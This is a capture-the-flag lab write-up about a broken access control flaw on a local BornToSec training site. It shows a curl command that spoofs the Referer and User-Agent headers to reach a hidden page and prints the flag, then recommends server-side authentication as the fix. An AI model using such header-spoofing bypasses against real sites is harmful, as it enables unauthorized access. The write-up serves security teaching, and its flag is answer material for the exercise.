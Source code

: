 ## [Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)

Clicking on "© BornToSec" at the bottom of the index page leads us to an about page with a weird URL: http://localhost:8080/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f.

The `page` query argument is a sha256 encoded string, which we couldn't decrypt it through bruteforce attack

Looking at the source code reveals two hints.

```
[...]
You must come from : "https://www.nsa.gov/".
[...]
Let's use this browser : "ft_bornToSec". It will help you a lot.
[...]
```

The first comment is a reference to the referer, an optional HTTP header field that identifies the address of the web page (i.e., the URI or IRI) from which the resource has been requested. [HTTP_referer](https://en.wikipedia.org/wiki/HTTP_referer)

The second one is a reference to the user agent, a header indicating the browser which made the request.

We can craft the request with `curl`:

```console
$ curl 'http://localhost:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' -H 'User-Agent: ft_bornToSec' -H 'Referer: https://www.nsa.gov/' | grep flag
[...]
The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
[...]
```

Authentification through HTTP headers is a form of broken access control, since it is easily bypassed.

Use a robust authentication mechanism (e.g., OAuth, JWT, or session-based authentication) instead of relying on HTTP headers for access control. Ensure that every request is authenticated and authorized on the server before processing.
